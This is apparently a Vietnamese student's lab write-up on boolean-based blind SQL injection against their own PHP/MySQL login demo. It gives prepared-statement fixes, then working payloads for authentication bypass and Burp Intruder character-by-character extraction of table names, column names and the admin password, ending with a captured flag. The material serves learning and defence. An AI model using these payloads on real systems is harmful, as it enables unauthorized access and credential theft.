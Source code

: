 # Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/booleanBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Ban đầu em vào giao diện sẽ như thế này ạ
cheatsheet 
![Alt text](./imagesBooleanBase/image-3.png)


![Alt text](./imagesBooleanBase/image.png)
- Thường thì login nên là lỗi sẽ kiểu loanh quanh sqli, jwt, authentication nên em dùng sqli liền:v

Ban đầu em test với payload "administrator'+OR+1=1--+-&password=aaa&login="
+ Em nhận được chuỗi chào mừng với tên administrator, thường thì như này là bypass ổn rồi nhưng mà em sẽ tìm cách để biết được password của admin để quang minh chính đại vào:<

- cái này em quên liệt kê đó là nếu mà đăng nhập sai sẽ nhận được chuỗi như này
![Alt text](./imagesBooleanBase/image-1.png)

- sau đó em dùng câu lệnh điều kiện trong mysql "' OR (case when 1=1 then 1 else 0 end)=1+--+-"
+ Câu lên này sẽ checking NẾU 1=1 thì sẽ trả ra 1 còn nếu sai trả ra 0 và đương nhiên là 1=1 rồi nên sẽ luôn trả ra 1 và 1=1 nên OR true sẽ luôn đúng và ta sẽ nhận được kết quả
![Alt text](./imagesBooleanBase/image-2.png)
+ Này là một dạng Blind SQL rồi nên em sẽ làm luôn ạ:v
+ Flow: xác định tên bảng-> tên cột-> dumb bằng brute force @@
Bởi vì là mình dumb từng kí tự nên cũng sẽ phải check trước độ dài của dữ liệu

- Tìm hiểu đôi chút là trong infomation_schema.tables có
![Alt text](./imagesBooleanBase/image-11.png)
- Đoạn engine='InnoDb';
- Đầu tiên em sẽ tìm độ dài của tên bảng
payload : "' OR (case when (select length(table_name) from information_schema.tables where engine='InnoDB' limit 0,1)>0 then 1 else 0 end)=1 -- -"

- Và kết quả luôn đúng vì em tên bảng luôn lớn hơn 0 và em được kết quả
![Alt text](./imagesBooleanBase/image-4.png)

- Sau đó em dùng burp intruder để tìm length table_name
![Alt text](./imagesBooleanBase/image-8.png)
![Alt text](./imagesBooleanBase/image-6.png)
add tiếng việt bị lỗi nên em chỉ grep Chào
![Alt text](./imagesBooleanBase/image-10.png)

- Kết quả có thể thấy là khi length table > 5 thì em không còn nhận được sự chào mừng nữa
- Nên độ dài của tên bảng sẽ là 5

+ Sau đó em brute-force tên bảng với payload "' OR (case when (select substring((select table_name from information_schema.tables where engine='Innodb' limit 0,1),§1§,1)='§0§' then 1 else 0 end)=1 -- - "
- EM được tên bảng là users

+ Em tiếp tục sử dụng 
' OR (case when (select length(column_name) from information_schema.colums where table_name='users' limit 2,1)>0 then 1 else 0 end)>1 -- -
- Em nhận được kết quả
![Alt text](./imagesBooleanBase/image-12.png)
- Em tiếp tục sử dụng burp intruder và tìm được độ dài cột thứ nhất là 2, cột thứ 2 là 9, cột thứ 3 là 8 cột cuối cùng là 4

+ bây giờ em dumb giá trị bằng intruder với payload : "a'+OR+(case+when+substring((select+column_name+from+information_schema.columns+where+table_name%3d'users'+limit+0,1),§1§,1)%3d'§0§'+then+1+else+0+end)%3d1+--+-"
![Alt text](./imagesBooleanBase/image-13.png)

- Payload 1 là vị trí của kí tự: là number vì cột đầu có 2 kí tự nên ta sẽ set từ 1->2
- Payload 2 là giá trị của kí tự mình sẽ brute force ạ nếu muốn thêm kí tự có thể thêm vào ô 

![Alt text](./imagesBooleanBase/image-14.png)
![Alt text](./imagesBooleanBase/image-17.png)
Grep kết quả:
![Alt text](./imagesBooleanBase/image-16.png)


Em nhận được kết quả là :
![Alt text](./imagesBooleanBase/image-18.png)
![Alt text](./imagesBooleanBase/image-19.png)
![Alt text](./imagesBooleanBase/image-20.png)

- Vậy là em đã có tên của cột đó là id, username, password và tương tự cột cuối là role

- Bây giờ em bắt đầu dumb dữ liệu tương tự như cách để dumb tên của table
em dùng payload :"a'+OR+(case+when+substring((select+password+from+users+limit+0,1),§1§,1)='§0§'+then+1 else+0+end)=1+--+-"

- Em dùng payload1 là number payload 2 là brute force dùng clustẻ bomb em nhận được password là:
hihi123
Tương tự như database của em
![Alt text](./imagesBooleanBase/image-21.png)
Nên em đã thành công "mượn" được mật khẩu administrator và em đã đòi được tiền chuộc sau khi đăng nhập là
Bạn đã hack tôi bây giờ là admin :( đây là tiền chuộc KCSC_TASK{____b4N_D^n9_h4ck_t@i_h3t_1ieN_R0i___}